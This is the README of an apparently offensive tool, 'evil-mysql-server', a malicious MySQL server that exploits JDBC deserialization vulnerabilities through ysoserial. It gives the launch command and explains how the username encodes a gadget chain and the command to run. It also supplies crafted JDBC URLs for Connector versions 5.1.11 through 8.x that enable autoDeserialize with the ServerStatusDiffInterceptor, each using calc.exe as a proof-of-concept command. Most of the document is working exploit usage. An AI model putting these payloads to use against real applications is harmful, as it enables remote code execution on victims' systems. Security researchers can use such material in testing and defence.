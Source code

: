 # evil mysql server

[English](./README.MD) | 简体中文

## 简介

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 [ysoserial](https://github.com/frohoff/ysoserial) 。

使用方式

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```


启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```

## JDBC url 示例

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```